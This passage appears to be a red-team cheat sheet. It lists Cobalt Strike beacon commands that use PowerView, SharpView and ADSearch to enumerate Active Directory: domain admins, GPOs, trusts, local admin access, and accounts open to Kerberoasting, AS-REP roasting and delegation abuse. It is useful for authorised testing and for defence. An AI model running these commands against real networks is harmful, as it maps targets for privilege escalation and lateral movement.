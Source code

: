 ```powershell
beacon> powerpick Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName

# Get Domain Group Member
beacon> powerpick Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName
beacon> powerpick Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select MemberDistinguishedName

# Get Domain GPO
beacon> powerpick Get-DomainGPO -Properties DisplayName | sort -Property DisplayName

# Find the System where given GPO are applicable
beacon> powerpick Get-DomainOU -GPLink "{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}" | select distinguishedName

# Idenitfy domain users/group who have local admin via Restricted group or GPO
beacon> powerpick Get-DomainGPOLocalGroup | select GPODisplayName, GroupName

# Enumerates the machines where a specific domain user/group has local admin rights
beacon> powerpick Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl

# Get Domain Trusts
beacon> powerpick Get-DomainTrust

# Find Local Admin Access on other domain computers based on context of current user
beacon> powerpick Find-LocalAdminAccess
beacon> powerpick Invoke-CheckLocalAdminAccess -ComputerName <server_fqdn>

beacon> powerpick Invoke-UserHunter
beacon> powerpick Find-PSRemotingLocalAdminAccess -ComputerName <server_fqdn>
beacon> powerpick Find-WMILocalAdminAccess -ComputerName <server_fqdn>
```
### SharpView binary
```powershell
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain
```
### ADSearch
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user"

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins*))"

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=MS SQL Admins))" --attributes cn,member

# Kerberostable Users
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

# ASEPROAST
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

# Unconstrained Delegation
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

# Constrained Delegation
```